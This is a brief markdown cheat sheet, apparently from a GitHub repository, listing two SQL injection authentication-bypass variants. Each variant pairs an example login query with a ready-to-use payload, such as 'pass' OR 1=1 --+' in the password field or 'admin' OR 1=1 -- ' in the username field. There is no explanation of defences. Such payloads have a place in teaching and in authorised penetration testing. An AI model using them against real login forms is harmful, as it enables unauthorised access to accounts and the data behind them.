 ----------------------------------
# SQL Injection

## Authentication Bypass Variant 1
### query:
SELECT * FROM users WHERE username='admin' AND password='pass'

### payload:
*username*:admin

*password*:pass' OR 1=1 --+

**NOTE:** + is similar to space in URL encoding




## Authentication Bypass Variant 2
### query:
SELECT * FROM users WHERE username='admin' AND password='1a1dc91c907325c69271ddf0c944bc72'

###payload:
*username*:admin' OR 1=1 -- 

*password*:123